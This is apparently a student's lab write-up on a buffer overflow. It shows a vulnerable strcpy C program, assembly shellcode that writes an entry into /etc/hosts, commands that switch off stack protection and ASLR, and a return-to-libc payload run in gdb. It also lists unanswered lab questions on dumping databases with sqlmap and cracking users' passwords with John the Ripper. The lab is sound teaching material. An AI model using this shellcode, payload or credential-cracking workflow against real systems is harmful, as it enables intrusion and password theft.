 # LAB#1, Doan Minh Khanh,   INSE331280E_02FIE

# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:


- Compile asm program and C program to executable code. 
  
Run docker

Copy the above code c into the folder Security-lab/buffer-overflow/vuln.c

Do the same for the shellcode, copy into the file_del

Create the file out vuln.o to execute the code

``` 
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
   Create a file_asm out by these 2 commands
``` 
nasm -g -f elf file_del.asm

ld -m elf_i386 -o file_del file_del.o
```
Set up the enviroment
``` 
sudo ln -sf /bin/zsh /bin/sh

sudo sysctl -w kernel.randomize_va_space=0
```
Change perrmission
``` 
sudo chmod 7777 /etc/hosts
``` 
The picture of the above actions:
![createpicture](./img/lab1_pic1.png)


- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
output screenshot (optional)

Stack frame:
![createpicture](./img/test1-stackframe.png)

To execute the the file_del, it needs to overwrite the buffer

we redirect the directory
export mybuf="/home/seed/seclabs/Security-labs/Software/buffer-overflow/file_del"

find the payload by
``` 
gdb -q vuln.out  
``` 

![createpicture](./img/libc.png)
![createpicture](./img/findthepayload.png)
Then we collect the payload that can conduct buffer-overflow to the return address like in the stackframe

payload = padding + system_addr + exit_addr + "/bin/sh"
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x09\xdf\xff\xff')")
```
**Conclusion**: comment text about the screenshot or simply answered text for the question

After run the payload in gdb wwe have
![createpicture](./img/runpayload.png)

Then we check again the /cat/host directory, we have see the new part 127.1.1.1 google.com. That means we insert and conduct the buffer-overflow sucessfully 
![createpicture](./img/chenThanhcong.png)
# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**: